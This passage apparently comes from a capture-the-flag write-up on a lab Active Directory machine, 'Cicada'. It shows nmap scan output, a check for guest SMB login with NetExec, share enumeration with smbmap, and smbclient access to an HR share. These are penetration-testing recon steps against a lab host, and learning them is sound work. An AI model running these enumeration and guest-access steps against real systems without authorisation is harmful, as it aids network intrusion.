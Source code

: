 ```
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57310/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Ports 53, 88, 3268, 3269 and 5985 show that we are dealing with an Active Directory Windows Server.

### Guest authentication

Guest authentication is enabled and we can confirmed that with the NetExec tool:

```
$ nxc smb 10.10.11.35 -u guest -p ''
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```

With that knowledge, we can enumerate open SMB shares with `smbmap -H 10.10.11.35 -u 'guest%'`, as shown below:

![](assets/guest_authentication_smb.png)

Accessing the open "HR" share, it reveals the file named "Notice from HR.txt":

```
$ smbclient //10.10.11.35/HR -U 'guest%'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 12:29:09 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 18:31:48 2024

		4168447 blocks of size 4096. 301506 blocks available
smb: \> 
```
